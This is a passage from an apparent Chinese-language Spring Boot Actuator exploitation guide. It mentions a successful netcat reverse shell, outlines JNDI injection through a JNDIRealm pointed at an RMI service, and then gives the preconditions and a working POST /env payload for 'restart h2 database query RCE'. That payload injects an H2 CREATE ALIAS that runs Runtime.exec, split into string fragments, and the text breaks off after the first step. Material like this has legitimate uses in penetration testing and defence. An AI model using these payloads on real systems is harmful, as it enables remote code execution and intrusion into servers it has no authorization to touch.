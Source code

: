

该脚本运行成功后，可以看到kali的nc反弹shell成功

![](media/f234a703de0dd6e5042e6ee09f60fb1e.png)



##### 利用原理

- 创建 JNDIRealm
- 写入 contextFactory 为 RegistryContextFactory
- 写入 connectionURL 为你的 RMI Service URL
- 停止 Realm
- 启动 Realm 以触发 JNDI 注入

详细分析请参见

[Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)



#### 2.6.restart h2 database query RCE

##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）



##### 利用方法

**步骤一：设置 spring.datasource.hikari.connection-test-query 属性**

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发



spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('str1','str2','str3');
```

